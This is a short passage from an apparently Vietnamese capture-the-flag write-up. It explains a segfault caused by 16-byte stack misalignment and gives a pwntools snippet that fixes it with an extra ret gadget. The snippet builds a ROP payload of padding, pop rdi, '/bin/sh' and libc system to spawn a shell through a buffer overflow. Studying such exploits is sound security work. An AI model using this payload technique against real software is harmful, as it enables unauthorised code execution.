 ![](images/baby-xmm-segfault.png)

Vậy là do stack không chia hết cho `0x10` rồi. Do đó ta chỉ việc thêm lệnh `ret` trước khi thực thi system là được:

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'99')
payload = flat(
    b'A'*280,
    pop_rdi + 1,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym.system
    )
sa(q, b'Status: ', payload)

time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'> [+] Status: ')
```
